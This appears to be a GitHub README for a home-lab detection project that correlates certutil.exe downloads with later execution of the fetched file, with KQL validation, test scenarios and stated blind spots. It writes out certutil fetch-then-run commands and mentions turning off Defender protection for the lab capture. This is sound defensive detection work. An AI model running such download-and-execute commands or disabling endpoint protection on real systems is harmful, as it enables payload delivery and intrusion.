




# Certutil Download → Execution Detection

## 1. Overview

This project detects a behavioural sequence where `certutil.exe` retrieves a remote executable and that same executable subsequently runs on the same endpoint within a defined correlation window.

The first version of the detection was intentionally simple: identify `certutil.exe` command lines containing HTTP or HTTPS. That approach was easy to write, but it was also noisy because Certutil can legitimately retrieve certificate-related resources such as CRLs.

The final detection therefore correlates the Certutil retrieval with subsequent execution of the retrieved executable rather than treating Certutil itself as malicious.

The project was validated using real Sysmon process telemetry from a Windows home lab and synthetic Microsoft Defender XDR-style `DeviceProcessEvents` data in Azure Data Explorer.

---

## 2. Detection Goal

Detect the behavioural chain:

```text
certutil remote retrieval
        ↓
retrieved executable
        ↓
same executable executes
        ↓
same endpoint
        ↓
within correlation window
```

An optional decode stage can increase confidence:

```text
certutil download
        ↓
certutil -decode
        ↓
decoded executable executes
```

Decode activity is not required because Certutil can retrieve an executable directly.

---

## 3. Why Keyword Matching Wasn't Enough

A naive detection could look for:

```text
certutil.exe + http
```

This successfully identifies Certutil remote retrieval activity, but it does not distinguish between suspicious file transfer and legitimate certificate-related retrieval.

For example:

```text
certutil -urlcache -f http://crl.example.test/root.crl root.crl
```

The validation dataset demonstrated this directly.

| Scenario | Naive Rule | Correlated Rule |
|---|---:|---:|
| Direct download + execution | Alert | Alert |
| Legitimate CRL retrieval | Alert | No alert |

The CRL scenario is therefore not simply described as a possible false positive. It is included in the test harness to demonstrate the difference between keyword detection and behavioural correlation.



---

## 4. Detection Logic

The detection uses two main event sets.

### Process A — Certutil retrieval

Candidate retrieval events require:

- `FileName == certutil.exe`
- `ProcessCommandLine` contains `-urlcache`
- command line contains HTTP or HTTPS
- an explicit destination filename can be extracted

Example:

```text
certutil -urlcache -f http://192.168.11.165:8000/lab-payload.exe lab-payload.exe
```

### Process B — Payload execution

The detection then searches for:

- later executable process creation
- same `DeviceId`
- executed filename matches the retrieved executable filename
- execution occurs after the retrieval
- execution occurs inside the configured correlation window

V1 uses executable filename correlation.

This is intentionally narrower than attempting to detect every possible Certutil execution technique.

---

## 5. Data Sources

### Real telemetry

Real process telemetry was generated in a personal Windows lab using Sysmon Event ID 1.

The positive test used a harmless Windows executable:

```text
whoami.exe
```

It was renamed to:

```text
lab-payload.exe
```

The file was hosted from a Kali Linux VM using a local Python HTTP server.

The Windows VM then performed:

```text
certutil -urlcache -f http://192.168.11.165:8000/lab-payload.exe lab-payload.exe
```

followed by execution of:

```text
.\lab-payload.exe
```

No malware was used.

### KQL validation

The final query uses Microsoft Defender XDR-style:

```text
DeviceProcessEvents
```

Because the home lab does not generate native Defender XDR telemetry, the real Sysmon events were translated into synthetic Defender-style rows for controlled validation in Azure Data Explorer.

---

## 6. Sysmon → Defender XDR Mapping

| Sysmon Event ID 1 | Defender XDR |
|---|---|
| `UtcTime` | `Timestamp` |
| `Computer` | `DeviceName` |
| Host identity | `DeviceId` |
| `Image` basename | `FileName` |
| `Image` directory | `FolderPath` |
| `CommandLine` | `ProcessCommandLine` |
| `ParentImage` | `InitiatingProcessFileName` |
| `ParentCommandLine` | `InitiatingProcessCommandLine` |
| `User` | `AccountName` |

`DeviceId` does not literally come from Sysmon.

The ADX test harness assigns a stable synthetic `DeviceId` representing each test host.

---

## 7. Real Lab Telemetry

### Certutil retrieval

The real Sysmon retrieval event showed:

```text
UtcTime:
2026-09-25 07:28:12.032

Image:
C:\Windows\System32\certutil.exe

CommandLine:
"C:\Windows\System32\certutil.exe" -urlcache -f http://192.168.11.165:8000/lab-payload.exe lab-payload.exe

CurrentDirectory:
C:\Temp\certutil-lab\

ParentImage:
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
```



### Payload execution

The subsequent Sysmon event showed:

```text
UtcTime:
2026-09-25 07:28:24.733

Image:
C:\Temp\certutil-lab\lab-payload.exe

CommandLine:
"C:\Temp\certutil-lab\lab-payload.exe"

OriginalFileName:
WHOAMI.EXE

ParentImage:
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
```



The observed time between retrieval and execution was:

```text
12.701 seconds
```

---

## 8. Test Scenarios

Eight main validation scenarios were created.

| # | Scenario | Expected | Result |
|---:|---|---|---|
| 1 | Direct executable download + execution | Alert | PASS |
| 2 | Download + decode + execution | Alert | PASS |
| 3 | Legitimate CRL retrieval | No alert | PASS |
| 4 | Download only | No alert | PASS |
| 5 | Unrelated executable runs | No alert | PASS |
| 6 | Matching payload executes outside 10-minute window | No alert | PASS |
| 7 | Browser download + execution | No alert | PASS |
| 8 | Same payload executes under different user / parent | Alert | PASS |

All eight scenarios produced the expected result.


### Scenario 8 decision

Scenario 8 tests a matching payload that executes:

- on the same device
- under a different account
- from a different parent process

The final detection uses **same-device correlation** rather than requiring the same account.

This avoids losing coverage when execution context changes.

User identity and parent process remain useful investigation fields but are not mandatory correlation conditions.

---

## 9. Correlation Window Tuning

Three correlation windows were compared:

- 5 minutes
- 10 minutes
- 30 minutes

A tuning-only filename-collision case was also included.

In that case:

```text
certutil downloads common.exe
```

and 20 minutes later an unrelated:

```text
common.exe
```

executes from another path.

Because V1 correlates on executable basename, a sufficiently long window can incorrectly associate those events.

### Results

| Window | TP | FP | FN |
|---|---:|---:|---:|
| 5 minutes | 2 | 0 | 2 |
| 10 minutes | 3 | 0 | 1 |
| 30 minutes | 4 | 1 | 0 |



### Selected window

The final rule uses:

```text
10 minutes
```

The test data demonstrated the trade-off:

- 5 minutes missed more delayed execution behaviour.
- 30 minutes recovered delayed coverage but introduced a filename-collision false correlation.
- 10 minutes provided greater coverage than 5 minutes without producing the demonstrated collision.

This value is a result of this controlled dataset and is not presented as an industry-standard correlation window.

---

## 10. False Positive Analysis

The main false-positive problem investigated was legitimate Certutil certificate-related retrieval.

The naive query:

```text
certutil.exe + http
```

alerted on the CRL retrieval scenario.

The correlated rule did not alert because no corresponding executable subsequently ran.

This was the main reason for moving from keyword matching to behavioural correlation.

A second correlation risk appears when matching only executable filenames.

For example, two unrelated files named:

```text
common.exe
```

could be incorrectly associated if the correlation window is sufficiently broad.

The window-testing dataset demonstrates this limitation explicitly.

---

## 11. Detection Decisions

### Decode is optional

`certutil -decode` can be useful additional context, but requiring it would miss direct executable retrieval.

The main rule therefore detects:

```text
download → execution
```

while the decode chain is treated as additional confidence:

```text
download → decode → execution
```

### Same-device vs same-user

The final correlation requires the same `DeviceId`.

It does not require the same account.

This allows the detection to identify cases where execution context changes after retrieval.

### Parent process

Parent process is included as investigation context but is not a mandatory correlation condition.

### Executable payloads only

V1 deliberately focuses on executable payloads.

Script payloads such as:

```text
.ps1
.vbs
.bat
```

may execute through interpreters such as:

```text
powershell.exe
wscript.exe
cmd.exe
```

In those cases, the script filename may only appear in the process command line rather than as `FileName`.

Supporting those cases would require additional command-line correlation and is outside V1.

### Filename correlation

The real Sysmon event included:

```text
CurrentDirectory:
C:\Temp\certutil-lab\
```

which made the complete destination path inferable in the lab event.

However, the Defender-style schema used by this project does not rely on Sysmon `CurrentDirectory`.

V1 therefore correlates using the explicit retrieved executable filename against the later executable `FileName`.

This is a known limitation.

---

## 12. Telemetry Limitation

This detection infers remote retrieval from Certutil command-line arguments recorded in:

```text
DeviceProcessEvents
```

Process telemetry proves that Certutil was invoked with a remote URL.

It does **not independently prove**:

- the network connection succeeded
- the remote file was actually transferred
- a file was created on disk

A production implementation could strengthen the detection by correlating with:

```text
DeviceNetworkEvents
DeviceFileEvents
```

This project intentionally keeps the initial implementation process-telemetry focused.

---

## 13. Certutil Syntax Limitation

The real positive case validated:

```text
certutil -urlcache -f URL destination.exe
```

The project does not claim complete coverage of all Certutil retrieval forms.

Examples requiring further handling include:

```text
certutil -urlcache -f URL
```

and:

```text
certutil -verifyctl -f -split URL
```

When no explicit destination filename is present, Certutil may store data in its cache using a path or filename that cannot be reliably inferred from the process command line.

This is treated as a documented blind spot rather than silently assumed to work.

---

## 14. Known Blind Spots

### Delayed execution

Execution beyond the selected 10-minute window will not correlate.

### Payload rename

If the retrieved executable is renamed before execution, filename correlation will fail.

The real lab payload also demonstrated that Sysmon preserved `OriginalFileName: WHOAMI.EXE` after `whoami.exe` was renamed to `lab-payload.exe`. Original filename metadata could therefore be explored as an additional correlation signal in a future version, although V1 does not rely on it.

### Different retrieval utility

The rule is intentionally scoped to Certutil.

It will not detect equivalent transfers performed using tools such as:

```text
PowerShell
BITSAdmin
curl
browser downloads
```

### Fileless execution

If no matching executable process is created, the rule will not correlate.

### Filename collisions

Two unrelated executables with the same basename can create false correlations.

This risk increases as the correlation window expands.

### Script and indirect execution

Scripts, DLL execution, `rundll32`, renamed extensions, interpreter-based execution, and other indirect mechanisms are outside V1.

### Destination parsing

Certutil syntax, quoting, or use of cache-only retrieval can prevent reliable destination extraction.

### Telemetry dependency

The rule depends on process telemetry containing sufficient command-line information.

---

## 15. MITRE ATT&CK

### T1105 — Ingress Tool Transfer

The primary behaviour detected is remote retrieval of a payload using Certutil.

### T1140 — Deobfuscate/Decode Files or Information

T1140 applies only when:

```text
certutil -decode
```

is actually observed.

The project does not require decoding and does not map every Certutil execution to T1140.

---

## 16. Investigation Query

`investigation.kql` is provided separately from the main detection.

Given:

- a target `DeviceId`
- an approximate alert timestamp

the query displays surrounding process activity and classifies useful events such as:

```text
Certutil Retrieval
Certutil Decode
Process Execution
```

It is intended to support analyst investigation rather than duplicate the detection logic.

---

## 17. Validation Environment

Lab components used during the project:

- Windows VM
- Sysmon
- Kali Linux VM
- local Python HTTP server
- Azure Data Explorer
- KQL using Defender XDR-style `DeviceProcessEvents`

Microsoft Defender real-time protection interfered with the controlled Certutil retrieval during telemetry generation.

For the isolated lab capture only, Tamper Protection and real-time protection were temporarily disabled so the harmless payload could be retrieved and executed. Real-time protection was re-enabled immediately after telemetry generation.

The payload was a benign copy of `whoami.exe`.

No malware was used.

---

## 18. Transparency

**Real process telemetry was captured in my personal Sysmon lab. Defender XDR-schema test data used for KQL validation is synthetic. The detection logic is designed to be portable to Microsoft Sentinel / Defender XDR-style telemetry but has not been validated in a production Sentinel environment.**

---

## Repository Files

```text
certutil-download-execution/
├── detection.kql
├── investigation.kql
├── README.md
├── screenshots/
│   ├── 01-real-certutil-download.png
│   ├── 02-real-payload-execution.png
│   ├── 03-validation-results.png
│   └── 04-window-testing.png
└── test-data/
    └── adx-test-harness.kql
```

---

## Outcome

The initial detection:

```text
certutil.exe + HTTP
```

was easy to write but produced legitimate matches.

The final version instead correlates:

```text
Certutil retrieval
        ↓
matching executable
        ↓
subsequent execution
        ↓
same endpoint
        ↓
within 10 minutes
```

The project demonstrates the progression from simple keyword detection to behavioural correlation, controlled false-positive testing, correlation-window tuning, documented limitations, and analyst investigation support.